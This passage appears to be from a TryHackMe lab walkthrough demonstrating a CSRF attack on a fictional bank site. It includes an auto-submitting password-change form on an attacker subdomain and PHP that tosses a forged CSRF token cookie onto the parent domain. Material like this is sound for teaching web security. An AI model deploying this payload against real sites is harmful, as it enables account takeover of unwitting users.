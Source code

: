 ![email screenshot](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/1ef37fe99417df64e42cb2c3afd73740.png)  

- The email contained a link to an **attacker-controlled domain** (`attacker.mybank.thm`) with a password update form similar to a bank one. The form also has a CSRF token already set as a hidden parameter.

```html
<form method="post" action="http://mybank.thm:8080//changepassword.php" id="autos">
        <label for="password">Password:</label>
        <input type="password" id="password" name="current_password" value="<?php echo "GB82MYBANK5697" ?>" required>

        <label for="confirm_password">ConfirmPassword:</label>
        <input type="password" id="confirm_password" name="confirm_password" value="Attacker Unique Password" required>
		<input type="hidden" id="csrf_token" name="csrf_token" value="Decrypted Token Value">
		

        <button type="submit" name="password_submit"  id="password_submit" >Update Password</button>
    </form>
	
	</div>
<script>
document.getElementById('password_submit').click(); 
</script>
        
```

- In the above code, the attacker will update the payload and add the `base64 value` of Josh's bank account as a new CSRF token value. 
- Navigate to Josh's mailbox at the `mailbox.thm:8081` to see the new mail with the crafted CSRF payload.

![selected email screenshot](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/32ef629045775c0616918e9caf0536a5.png)  

- Once you click the link, it will redirect you to the attacker-controlled subdomain page and auto-submit the form to change the password. The attacker contains a code similar to that of the change password page of `mybank.thm`; however, he is also setting a cookie with the following code so that it will be forwarded to the main domain `mybank.thm` while triggering a CSRF attack.  
    

```php
<?php
...
setcookie(
    'csrf-token',               
    base64_encode("GB82MYBANK5699"),            
    [
        'expires' => time() + (365 * 24 * 60 * 60), 
        'path' => '/',                         
        'domain' => 'mybank.thm',                          
        'secure' => false,                      
        'httponly' => false,                 
        'samesite' => 'Lax' 
    ]
);
?>
```
